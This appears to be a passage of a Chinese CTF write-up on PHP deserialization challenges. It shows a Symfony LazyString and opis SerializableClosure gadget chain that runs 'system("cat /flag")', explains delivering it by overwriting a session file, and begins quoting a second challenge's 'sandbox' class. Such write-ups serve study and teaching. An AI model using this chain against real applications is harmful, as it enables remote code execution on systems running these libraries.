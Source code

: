 `__toString`中的`try`里可以触发，属性可控

```
return $this->value = ($this->value)();
```

链子就出来了



```php
<?php

namespace Symfony\Component\String;
class LazyString
{
    public $value;

    public function __construct()
    {
        require "vendor/opis/closure/autoload.php";
        $func =function(){system("cat /flag");};
        $this->value = new \Opis\Closure\SerializableClosure($func);
    }
}
print("upload_path|".serialize(new LazyString())).PHP_EOL;


```

这儿传入func的目的是对`$closure`进行赋值，然后通过`call_user_func_array`进行执行命令。

得到反序列化值，传入文件

因为我们传入文件是放在`session`中，所以我们将文件名改为`sess_自己的PHPSESSION`,从而覆盖session文件，然后我们重新访问，把我们命令执行的结果带出来，得到flag。



![image-20220329210603088](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203292106213.png)



##  upload2

添加了一个sandbox类



```php
<?php
include_once "../vendor/autoload.php";

error_reporting(0);
session_start();

define("UPLOAD_PATH", "/tmp/sandbox");
if (!file_exists(UPLOAD_PATH)) {
    @mkdir(UPLOAD_PATH);
}

// emmm...easy backdoor
class sandbox {
	private $evil;
	public $upload_path;
	
	public function make_user_upload_dir() {
		$md5_dir = md5($_SERVER['REMOTE_ADDR'] . session_id());
		$this->upload_path = UPLOAD_PATH . "/" . $md5_dir;
		@mkdir($this->upload_path);
		$_SESSION["upload_path"] = $this->upload_path;
	}
```